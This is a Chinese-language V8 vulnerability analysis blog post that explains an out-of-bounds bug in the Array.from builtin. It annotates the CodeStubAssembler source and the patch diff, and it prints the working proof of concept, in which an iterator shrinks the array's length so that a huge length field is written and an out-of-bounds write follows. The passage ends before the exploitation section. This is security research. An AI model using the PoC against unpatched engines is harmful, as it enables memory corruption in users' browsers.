


Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com
作为V8漏洞分析系列第一篇文章，会写的很详细
源码下载编译什么的可以参考之前的文章，这里不再啰嗦了
搞V8也有段时间了，网上的资料说多不多，说少也不少，很多很基础的东西我都是尽量自己去搜，我觉得搞V8的一个很关键的点在于如何把Poc在V8里的执行过程对应上
今天我们拿一个品相不错的洞来分析
拿到parent的hash

我们下载好源码之后，切换到漏洞commit
v8 git:(master) ✗ git reset --hard 1dab065bb4025bdd663ba12e2e976c34c3fa6599
Checking out files: 100% (5182/5182), done.
HEAD is now at 1dab065bb4 [errors] Give a more informative error message for `new Map(1)`
然后用工具打开分析源码，不要在意为什么我定位在这里

在V8里，会有一些常用函数会被builtin，路径在v8/src/builtins/下，我们以上图里的函数为例，这段代码所在文件为v8/src/builtins/builtins-array-gen.cc，这是一种DSL，全名为：Domain-Specific Language，领域特定语言
// ES #sec-array.from
TF_BUILTIN(ArrayFrom, ArrayPopulatorAssembler) {
TNode<Context> context = CAST(Parameter(BuiltinDescriptor::kContext));
TNode<Int32T> argc = UncheckedCast<Int32T>(Parameter(BuiltinDescriptor::kArgumentsCount));
CodeStubArguments args(this, ChangeInt32ToIntPtr(argc));
// 获取map_function
TNode<Object> map_function = args.GetOptionalArgumentValue(1);
// If map_function is not undefined, then ensure it's callable else throw.
{
// 创建label分支用于跳转
Label no_error(this), error(this);
// 如果未定义则跳到no_error分支
GotoIf(IsUndefined(map_function), &no_error);
// 如果是Smi类型则跳到error分支，这里涉及到了对象的存储，后面会写，简单来说指针类型最后一位是1
GotoIf(TaggedIsSmi(map_function), &error);
// 分支，map_function可调用跳到no_error，不可调用跳到error
Branch(IsCallable(map_function), &no_error, &error);
// error分支
BIND(&error);
// 抛出异常
ThrowTypeError(context, MessageTemplate::kCalledNonCallable, map_function);
// no_error分支
BIND(&no_error);
}
// 创建是否可迭代分支
Label iterable(this), not_iterable(this), finished(this), if_exception(this);
TNode<Object> this_arg = args.GetOptionalArgumentValue(2);
TNode<Object> items = args.GetOptionalArgumentValue(0);
// The spec doesn't require ToObject to be called directly on the iterable
// branch, but it's part of GetMethod that is in the spec.
TNode<JSReceiver> array_like = ToObject(context, items);
TVARIABLE(Object, array);
TVARIABLE(Number, length);
这段代码为一种叫作CodeStubAssembler的DSL，V8官方博客有对这种语言的使用介绍
我们可以读一下这段代码，其实挺简单的，注释我都写好了
在理解了CodeStubAssembler大概的语法之后
我们可以开始讲今天的漏洞
首先来看Poc，先创建了一个数组，然后对这个数组做Array.from()调用，里面重新定义了迭代函数
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
{
counter : 0,
max : 1024 * 1024 * 8,
next() {
let result = this.counter++;
if (this.counter == this.max) {
oobArray.length = 0;
return {done: true};
} else {
return {value: result, done: false};
}
}
}
) });
oobArray[oobArray.length - 1] = 0x41414141;
我们来看这个函数的定义
也就是说，当我们传进去一个数组，它会再创建一个新的数组返回，并不会影响原来的数组
来看代码，可以看到不会修改传入的数组
let array = [1, 2, 3];
let result = Array.from(array, x => x + x);
console.log(array);
console.log(result);
> Array [1, 2, 3]
> Array [2, 4, 6]
但是按照Poc里的写法，就可以对原有数组做修改，成功改掉了传入的数组
let array = [1, 2, 3];
Array.from.call(function() { return array }, {[Symbol.iterator] : _ => (
{
counter : 0,
max : 10,
next() {
let result = this.counter++;
if (this.counter == this.max) {
return {done: true};
} else {
return {value: result, done: false};
}
}
}
) });
console.log(array);
> Array [0, 1, 2, 3, 4, 5, 6, 7, 8]
换句话来说，我们CSA代码里，改的也是传入的数组本身，感慨JS还是要深入学习，不然这种特性我是肯定想不到的
这也解释了为什么我们传入的第一个参数是function() { return array }这样的写法而不是直接传入一个数组变量
第二个参数涉及到了迭代的问题，大概的语法可以看出来，主要是实现next()函数，这里的逻辑是循环max次，把counter++作为返回值，注意看两个return，done为true表示迭代完成，这里由this.counter == this.max判断，注意我们现在是在重写迭代函数，所以可以随意写迭代逻辑和迭代次数
{[Symbol.iterator] : _ => (
{
counter : 0,
max : 10,
next() {
let result = this.counter++;
if (this.counter == this.max) {
return {done: true};
} else {
return {value: result, done: false};
}
}
}
) }
再来看Poc，我们先创建了一个数组oobArray，之后的写法我们上面解释过，迭代次数为1024 * 1024 * 8，唯一不同的是我们在迭代结束后，改掉了数组的长度
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
{
counter : 0,
max : 1024 * 1024 * 8,
next() {
let result = this.counter++;
if (this.counter == this.max) {
oobArray.length = 0;
return {done: true};
} else {
return {value: result, done: false};
}
}
}
) });
oobArray[oobArray.length - 1] = 0x41414141;
我们来思考下，在迭代里把数组的长度改为0或者说进行修改，会发生什么
这需要开始看源码
对应的源码就是我们刚刚看的那一段，JS里一部分数组操作写进了builtins，可以通过命名观察到，或者函数开头命名也行
这里贴出了整个函数的代码，前面一部分我们已经分析过
// ES #sec-array.from
TF_BUILTIN(ArrayFrom, ArrayPopulatorAssembler) {
TNode<Context> context = CAST(Parameter(BuiltinDescriptor::kContext));
TNode<Int32T> argc =
UncheckedCast<Int32T>(Parameter(BuiltinDescriptor::kArgumentsCount));
CodeStubArguments args(this, ChangeInt32ToIntPtr(argc));
TNode<Object> map_function = args.GetOptionalArgumentValue(1);
// If map_function is not undefined, then ensure it's callable else throw.
{
Label no_error(this), error(this);
GotoIf(IsUndefined(map_function), &no_error);
GotoIf(TaggedIsSmi(map_function), &error);
Branch(IsCallable(map_function), &no_error, &error);
BIND(&error);
ThrowTypeError(context, MessageTemplate::kCalledNonCallable, map_function);
// 跳到这里
BIND(&no_error);
}
// 创建是否可迭代分支
Label iterable(this), not_iterable(this), finished(this), if_exception(this);
TNode<Object> this_arg = args.GetOptionalArgumentValue(2);
TNode<Object> items = args.GetOptionalArgumentValue(0);
// The spec doesn't require ToObject to be called directly on the iterable
// branch, but it's part of GetMethod that is in the spec.
TNode<JSReceiver> array_like = ToObject(context, items);
TVARIABLE(Object, array);
TVARIABLE(Number, length);
// Determine whether items[Symbol.iterator] is defined:
IteratorBuiltinsAssembler iterator_assembler(state());
Node* iterator_method =
iterator_assembler.GetIteratorMethod(context, array_like);
Branch(IsNullOrUndefined(iterator_method), ¬_iterable, &iterable);
// 可迭代，或者说有迭代函数
BIND(&iterable);
{
TVARIABLE(Number, index, SmiConstant(0));
TVARIABLE(Object, var_exception);
Label loop(this, &index), loop_done(this),
on_exception(this, Label::kDeferred),
index_overflow(this, Label::kDeferred);
// Check that the method is callable.
{
Label get_method_not_callable(this, Label::kDeferred), next(this);
GotoIf(TaggedIsSmi(iterator_method), &get_method_not_callable);
GotoIfNot(IsCallable(iterator_method), &get_method_not_callable);
Goto(&next);
BIND(&get_method_not_callable);
ThrowTypeError(context, MessageTemplate::kCalledNonCallable,
iterator_method);
BIND(&next);
}
// 创建输出数组，也就是一开始我们看到的result数组，用于保存迭代结果，此时为空
// 由于我们的骚操作，此时就是传入的数组本身
// Construct the output array with empty length.
array = ConstructArrayLike(context, args.GetReceiver());
// Actually get the iterator and throw if the iterator method does not yield
// one.
IteratorRecord iterator_record =
iterator_assembler.GetIterator(context, items, iterator_method);
TNode<Context> native_context = LoadNativeContext(context);
TNode<Object> fast_iterator_result_map =
LoadContextElement(native_context, Context::ITERATOR_RESULT_MAP_INDEX);
Goto(&loop);
// 开始迭代
BIND(&loop);
{
// Loop while iterator is not done.
TNode<Object> next = CAST(iterator_assembler.IteratorStep(
context, iterator_record, &loop_done, fast_iterator_result_map));
TVARIABLE(Object, value,
CAST(iterator_assembler.IteratorValue(
context, next, fast_iterator_result_map)));
// If a map_function is supplied then call it (using this_arg as
// receiver), on the value returned from the iterator. Exceptions are
// caught so the iterator can be closed.
{
Label next(this);
GotoIf(IsUndefined(map_function), &next);
CSA_ASSERT(this, IsCallable(map_function));
Node* v = CallJS(CodeFactory::Call(isolate()), context, map_function,
this_arg, value.value(), index.value());
GotoIfException(v, &on_exception, &var_exception);
value = CAST(v);
Goto(&next);
BIND(&next);
}
// Store the result in the output object (catching any exceptions so the
// iterator can be closed).
Node* define_status =
CallRuntime(Runtime::kCreateDataProperty, context, array.value(),
index.value(), value.value());
GotoIfException(define_status, &on_exception, &var_exception);
index = NumberInc(index.value());
// The spec requires that we throw an exception if index reaches 2^53-1,
// but an empty loop would take >100 days to do this many iterations. To
// actually run for that long would require an iterator that never set
// done to true and a target array which somehow never ran out of memory,
// e.g. a proxy that discarded the values. Ignoring this case just means
// we would repeatedly call CreateDataProperty with index = 2^53.
CSA_ASSERT_BRANCH(this, [&](Label* ok, Label* not_ok) {
BranchIfNumberRelationalComparison(Operation::kLessThan, index.value(),
NumberConstant(kMaxSafeInteger), ok,
not_ok);
});
Goto(&loop);
}
// 迭代结束
BIND(&loop_done);
{
length = index; // index为迭代次数，也就是输出数组的length
Goto(&finished); // 跳转到finished分支
}
BIND(&on_exception);
{
// Close the iterator, rethrowing either the passed exception or
// exceptions thrown during the close.
iterator_assembler.IteratorCloseOnException(context, iterator_record,
&var_exception);
}
}
// 不可迭代或者没有迭代函数分支
// Since there's no iterator, items cannot be a Fast JS Array.
BIND(¬_iterable);
{
......
}
// 迭代结束跳到这里
BIND(&finished);
// 设置输出数组的长度
// Finally set the length on the output and return it.
GenerateSetLength(context, array.value(), length.value());
args.PopAndReturn(array.value());
}
对于代码里构造输出数组时我说就是传入的数组本身这个问题，我们可以验证一下，我们创建一个简单的数组，里面就一个元素，第一次迭代，进入else分支，此时还没有返回，所以输出的是原始数组，第二次迭代，此时第一次迭代的数据已经写进去，所以第一位被改掉为0，之后同理
let array = [1];
Array.from.call(function() { return array }, {[Symbol.iterator] : _ => (
{
counter : 0,
max : 10,
next() {
let result = this.counter++;
if (this.counter == this.max) {
return {done: true};
} else {
console.log(array);
return {value: result, done: false};
}
}
}
) });
console.log(array);
> Array [1]
> Array [0]
> Array [0, 1]
> Array [0, 1, 2]
> Array [0, 1, 2, 3]
> Array [0, 1, 2, 3, 4]
> Array [0, 1, 2, 3, 4, 5]
> Array [0, 1, 2, 3, 4, 5, 6]
> Array [0, 1, 2, 3, 4, 5, 6, 7]
> Array [0, 1, 2, 3, 4, 5, 6, 7, 8]
所以如果我们传入的是[1, 2, 3]，就会输出如下的数据
> Array [1, 2, 3]
> Array [0, 2, 3]
> Array [0, 1, 3]
> Array [0, 1, 2]
> Array [0, 1, 2, 3]
> Array [0, 1, 2, 3, 4]
> Array [0, 1, 2, 3, 4, 5]
> Array [0, 1, 2, 3, 4, 5, 6]
> Array [0, 1, 2, 3, 4, 5, 6, 7]
> Array [0, 1, 2, 3, 4, 5, 6, 7, 8]
再回到源码，我们看到最后有一个函数GenerateSetLength()用于设置输出函数的长度
// 迭代结束跳到这里
BIND(&finished);
// 设置输出数组的长度
// Finally set the length on the output and return it.
GenerateSetLength(context, array.value(), length.value());
args.PopAndReturn(array.value());
确定该函数三个参数：
context1024 * 1024 * 8跟入该函数，进入fast那个分支
void GenerateSetLength(TNode<Context> context, TNode<Object> array,
TNode<Number> length) {
Label fast(this), runtime(this), done(this);
// Only set the length in this stub if
// 1) the array has fast elements,
// 2) the length is writable,
// 3) the new length is greater than or equal to the old length.
// 1) Check that the array has fast elements.
// TODO(delphick): Consider changing this since it does an an unnecessary
// check for SMIs.
// TODO(delphick): Also we could hoist this to after the array construction
// and copy the args into array in the same way as the Array constructor.
BranchIfFastJSArray(array, context, &fast, &runtime);
BIND(&fast);
{
// 进入这里，获取数组为fast_array
// [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10]
TNode<JSArray> fast_array = CAST(array);
// 迭代的次数，注意，是迭代的次数：1024 * 1024 * 8
TNode<Smi> length_smi = CAST(length);
// 这里获取的是该数组自己的长度，结合Poc来看，这里已经被改为0了
// 有一点需要注意，因为我们是在JS代码里将数组长度改为0，这是正规操作
// 也就是说，我们在迭代结束的时候，修改了数组长度，由引擎来做的操作，数组是会缩小的
// 假如原来有100个长度，我们迭代结束后，改为10个，那么这个数组就只剩10个长度
// 第11个开始就是其它对象的数据
// 所以old_length的值取决于我们最后设置的值
TNode<Smi> old_length = LoadFastJSArrayLength(fast_array);
CSA_ASSERT(this, TaggedIsPositiveSmi(old_length));
// 2) Ensure that the length is writable.
// TODO(delphick): This check may be redundant due to the
// BranchIfFastJSArray above.
EnsureArrayLengthWritable(LoadMap(fast_array), &runtime);
// 3) If the created array already has a length greater than required,
// then use the runtime to set the property as that will insert holes
// into the excess elements and/or shrink the backing store.
// 如果length_smi小于old_length就跳去runtime分支执行动态修改数组长度操作
// 也就是迭代的次数小于传入数组的长度，假如我传入一个100长度的数组，但是只迭代了5个
// 但是我生成的数组长度还是100，所以需要优化长度
// 作者的想法：如果等于就直接把迭代次数写入，也就是说迭代次数等于数组长度
// 可是作者没有想到，如果迭代完，传入数组长度被修改
// 估计作者更没有想到传入的会是初始数组本身
// 如同我们这里的数据，迭代次数length_smi为1024 * 1024 * 8，但是old_length迭代完被改为0或者很小的数据
// 这就造成了内存里，一个长度为很小的数据的数组的长度字段被直接覆写为很大的值（取决于迭代次数）
// 此时拥有了一个非常好用的越界读写
GotoIf(SmiLessThan(length_smi, old_length), &runtime);
StoreObjectFieldNoWriteBarrier(fast_array, JSArray::kLengthOffset,
length_smi);
Goto(&done);
}
BIND(&runtime);
{
CallRuntime(Runtime::kSetProperty, context, static_cast<Node*>(array),
CodeStubAssembler::LengthStringConstant(), length,
SmiConstant(LanguageMode::kStrict));
Goto(&done);
}
BIND(&done);
}
我们来看补丁，如果迭代次数和数组长度不等，就跳到runtime分支
- // 3) If the created array already has a length greater than required,
+ // 3) If the created array's length does not match the required length,
// then use the runtime to set the property as that will insert holes
- // into the excess elements and/or shrink the backing store.
- GotoIf(SmiLessThan(length_smi, old_length), &runtime);
+ // into excess elements or shrink the backing store as appropriate.
+ GotoIf(SmiNotEqual(length_smi, old_length), &runtime);
漏洞原因分析就到此位置了
接下来我们来分析如何进行漏洞利用